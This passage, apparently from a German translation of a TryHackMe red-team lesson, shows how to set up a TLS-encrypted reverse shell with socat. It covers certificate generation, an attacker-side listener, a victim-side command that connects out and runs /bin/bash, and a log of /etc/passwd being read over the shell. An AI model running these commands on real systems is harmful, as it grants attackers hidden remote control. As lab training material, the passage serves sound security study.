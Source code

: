    Der obige Befehl gibt zurück:

   - Privater Schlüssel: `thm-reverse.key`
   - Zertifikat: `thm-reverse.crt`

   Die Privacy Enhanced Mail (PEM) `.pem`-Datei erfordert die Verkettung der privaten Schlüssel-`.key`- und Zertifikats-`.crt`-Dateien. Wir können `cat` verwenden, um unsere PEM-Datei aus den beiden gerade erstellten Dateien zu erstellen:

   ```bash
   cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
   ```

2. **Hören auf dem Angreifer-System**

   Mit der bereitstehenden PEM-Datei können wir beginnen, während der Verwendung des Schlüssels zur Verschlüsselung der Kommunikation mit dem Client zu lauschen.

   ```bash
   socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
   ```

   Wenn Sie mit `socat` nicht vertraut sind, sind die verwendeten Optionen:

   - `-d -d` liefert einige Debugging-Daten (Fehler-, Warnungs- und Hinweisnachrichten).
   - `OPENSSL-LISTEN:PORT_NUM` gibt an, dass die Verbindung mit OPENSSL verschlüsselt wird.
   - `cert=PEM_FILE` gibt die PEM-Datei (Zertifikat und privater Schlüssel) an, um die verschlüsselte Verbindung herzustellen.
   - `verify=0` deaktiviert die Überprüfung des Zertifikats des Partners.
   - `fork` erstellt einen Unterprozess, um jede neue Verbindung zu behandeln.

3. **Verbinden mit dem Angreifer-System**

   Auf dem Opfer-System können Sie den folgenden Befehl ausführen:

   ```bash
   socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
   ```

   Beachten Sie, dass `EXEC` das angegebene Programm aufruft.

Lassen uns dies demonstrieren. Auf dem System des Angreifers haben wir folgende Schritte durchgeführt:
```shell
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```
Da wir einen Listener auf dem Angreifer-System haben, haben wir auf dem Opfer-Computer den folgenden Befehl ausgeführt:
```shell
entester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```
Zurück auf dem Angreifer-System führen wir den Befehl `cat /etc/passwd` aus:
```shell
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```